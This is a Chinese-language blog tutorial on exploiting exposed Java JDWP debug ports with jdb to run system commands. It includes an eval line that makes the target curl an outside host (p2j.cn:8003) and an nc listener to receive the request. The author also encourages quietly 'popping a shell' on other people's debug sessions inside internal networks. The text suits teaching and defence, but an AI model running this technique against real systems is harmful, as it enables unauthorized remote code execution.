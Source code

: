 # JDWP攻击示例

JPDA(`Java Platform Debugger Architecture`) 是 Java 平台调试体系结构的缩写，通过 JPDA 提供的 API，开发人员可以方便灵活的搭建 Java 调试应用程序。

大概在2015年左右用tangscan扫到了很几次jdwp服务端口，当时只是简单的测试过这个服务。

这个jdwp服务提供来对java程序调试的功能，只要有程序启动时使用了jdwp参数且端口绑定在内网或者共网上时候我们就可以利用这个服务来执行java代码片段弹shell。比较典型的有tomcat启动的时候如果是以jpda方式启动的话就会启动一个8000端口用于远程调试。

![img](https://javasec.oss-cn-hongkong.aliyuncs.com/images/20190918164155_580.png)



假设我们需要远程调试一段Java程序，如Test.java的main方法：

![img](https://javasec.oss-cn-hongkong.aliyuncs.com/images/20190918161911_104.png)

如果要远程调试我们就需要使用到远程调试参数，我们使用IDEA远程调试的时候会提示我们配置如下参数：

![img](https://javasec.oss-cn-hongkong.aliyuncs.com/images/20190918161657_473.png)

所以我们只需要在执行:java Test 之前添加我们的调试参数即可。

首先在内网找一个测试环境，让他帮我们调试下这个Test.java，在启动的时候加上如下参数：

java -agentlib:jdwp=transport=dt_socket,server=y,suspend=y,address=*:8003 Test

如下图：

![img](https://javasec.oss-cn-hongkong.aliyuncs.com/images/20190918162359_476.png)

测试环境IP是：192.168.88.203，于是我们使用java自带的jdb(Java调试工具)来连接他的8003端口。

![img](https://javasec.oss-cn-hongkong.aliyuncs.com/images/20190918162732_784.png)

jdb自带了很多命令，可以通过命令来查看各种调试信息，详情可以自己执行help命令查看。

```bash
** 命令列表 **
connectors                -- 列出此 VM 中可用的连接器和传输
 
run [class [args]]        -- 开始执行应用程序的主类
 
threads [threadgroup]     -- 列出线程
thread-- 设置默认线程
suspend [thread id(s)]    -- 挂起线程 (默认值: all)
resume [thread id(s)]     -- 恢复线程 (默认值: all)
where [| all] -- 转储线程的堆栈
wherei [| all]-- 转储线程的堆栈, 以及 pc 信息
up [n frames]             -- 上移线程的堆栈
down [n frames]           -- 下移线程的堆栈
kill-- 终止具有给定的异常错误对象的线程
interrupt-- 中断线程
 
print-- 输出表达式的值
dump-- 输出所有对象信息
eval-- 对表达式求值 (与 print 相同)
set=-- 向字段/变量/数组元素分配新值
locals                    -- 输出当前堆栈帧中的所有本地变量
 
classes                   -- 列出当前已知的类
class-- 显示已命名类的详细资料
methods-- 列出类的方法
fields-- 列出类的字段
 
threadgroups              -- 列出线程组
threadgroup-- 设置当前线程组
 
stop in.[(argument_type,...)]
                          -- 在方法中设置断点
stop at:-- 在行中设置断点
clear.[(argument_type,...)]
                          -- 清除方法中的断点
clear:-- 清除行中的断点
clear                     -- 列出断点
catch [uncaught|caught|all]|-- 出现指定的异常错误时中断
ignore [uncaught|caught|all]|-- 对于指定的异常错误, 取消 'catch'
watch [access|all].-- 监视对字段的访问/修改
unwatch [access|all].-- 停止监视对字段的访问/修改
trace [go] methods [thread]
                          -- 跟踪方法进入和退出。
                          -- 除非指定 'go', 否则挂起所有线程
trace [go] method exit | exits [thread]
                          -- 跟踪当前方法的退出, 或者所有方法的退出
                          -- 除非指定 'go', 否则挂起所有线程
untrace [methods]         -- 停止跟踪方法进入和/或退出
step                      -- 执行当前行
step up                   -- 一直执行, 直到当前方法返回到其调用方
stepi                     -- 执行当前指令
下一步                      -- 步进一行 (步过调用)
cont                      -- 从断点处继续执行
 
list [line number|method] -- 输出源代码
use (或 sourcepath) [source file path]
                          -- 显示或更改源路径
exclude [, ... | "none"]
                          -- 对于指定的类, 不报告步骤或方法事件
classpath                 -- 从目标 VM 输出类路径信息
 
monitor-- 每次程序停止时执行命令
monitor                   -- 列出监视器
unmonitor <monitor#>      -- 删除监视器
read-- 读取并执行命令文件
 
lock-- 输出对象的锁信息
threadlocks [thread id]   -- 输出线程的锁信息
 
pop                       -- 通过当前帧出栈, 且包含当前帧
reenter                   -- 与 pop 相同, 但重新进入当前帧
redefine-- 重新定义类的代码
 
disablegc-- 禁止对象的垃圾收集
enablegc-- 允许对象的垃圾收集
 
!!                        -- 重复执行最后一个命令-- 将命令重复执行 n 次
#-- 放弃 (无操作)
help (或 ?)               -- 列出命令
version                   -- 输出版本信息
exit (或 quit)            -- 退出调试器: 带有程序包限定符的完整类名: 带有前导或尾随通配符 ('*') 的类名: 'threads' 命令中报告的线程编号: Java(TM) 编程语言表达式。
支持大多数常见语法。
 
可以将启动命令置于 "jdb.ini" 或 ".jdbrc" 中
位于 user.home 或 user.dir 中</monitor#>
```

因为他使用的是暂停模式，所以我们可以直接在jdb中执行stepi命令来执行当前指令，否则我们需要使用stop 命令来设置断点了，然后我们就可以使用eval或者print指令来调用Runtime去执行系统命令：`eval java.lang.Runtime.getRuntime().exec("curl p2j.cn:8003").getInputStream())`

![img](https://javasec.oss-cn-hongkong.aliyuncs.com/images/20190918163235_140.png)

我们需要在远程服务器上nc下8003端口即可接收受攻击的机器curl过来的请求：

![img](https://javasec.oss-cn-hongkong.aliyuncs.com/images/20190918163600_499.png)

也就是说我们可以在别人debug的时候使用jdb attach进去然后悄无声息的弹个shell回来玩了，这种场景在内网通常是比较常见的遇到这个服务的时候记得试试吧。

jdb参考资料：

[http://docs.oracle.com/javase/7/docs/technotes/tools/windows/jdb.html](https://docs.oracle.com/javase/7/docs/technotes/tools/windows/jdb.html)

https://www.javatpoint.com/jdb-expression

https://www.tutorialspoint.com/jdb/jdb_quick_guide.htm
